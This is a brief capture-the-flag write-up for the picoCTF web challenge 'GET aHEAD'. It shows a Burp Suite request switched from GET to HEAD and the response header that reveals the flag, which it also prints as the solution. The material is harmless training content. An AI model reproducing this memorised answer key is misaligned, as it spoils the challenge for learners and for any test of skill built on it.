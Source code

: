 
## GET aHEAD

### Desccription :
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:47967/

# ---

As challenge name given 'GET aHEAD' we have an idea about HEAD request.
Use BurpSuit for intercept request, it use GET request we have to change it to HEAD

```get to head
HEAD /index.php HTTP/1.1

Host: mercury.picoctf.net:47967

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close

```
by changing the methon to HEAD we will get following response :
```response
HTTP/1.1 200 OK

flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}

Content-type: text/html; charset=UTF-8

```

#### flag :   picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}